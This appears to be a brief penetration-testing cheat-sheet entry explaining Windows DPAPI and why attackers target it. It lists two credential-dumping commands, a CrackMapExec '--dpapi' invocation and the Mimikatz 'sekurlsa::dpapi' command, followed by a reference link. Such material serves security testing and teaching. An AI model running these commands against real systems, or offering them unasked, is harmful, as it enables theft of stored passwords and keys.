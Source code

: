 # Data Protection API (DPAPI)

DPAPI (Data Protection Application Programming Interface) is a Windows operating system feature that provides data protection by encrypting sensitive data using a user's login credentials. DPAPI is used by various applications to protect sensitive information such as passwords, keys, and credentials.

If an attacker gains access to a user's login credentials, they can use DPAPI to decrypt the protected data. Therefore, DPAPI is a valuable target for attackers looking to gain access to sensitive information.

```bash
# Dumping DPAPI with CrackMapExec
## Requires Local Administrator privileges 
crackmapexec smb $ip -u $user -p $password --dpapi

# Dumping DPPAI with Mimikatz
sekurlsa::dpapi
```

### References

{% embed url="https://docs.google.com/viewerng/viewer?url=https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf" %}

